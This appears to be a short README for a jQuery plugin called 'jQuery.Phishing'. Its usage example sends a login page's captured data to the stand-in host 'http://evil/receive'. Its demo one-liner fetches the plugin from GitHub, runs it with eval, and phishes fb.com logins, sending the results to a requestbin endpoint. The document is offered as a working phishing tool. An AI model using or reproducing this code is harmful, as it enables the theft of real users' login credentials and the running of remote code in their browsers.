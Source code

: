 # jQuery.Phishing
## Usage
```javascript
$.phishing('http://wooyun.org/login','http://evil/receive')
```
## Demo
```javascript
$.get(`https://raw.githubusercontent.com/jackmasa/jQuery.Phishing/master/jQuery.Phishing.js`,c=>{eval(c);$.phishing(`//fb.com`,`http://requestbin.herokuapp.com/1koaluq1 `)});
```
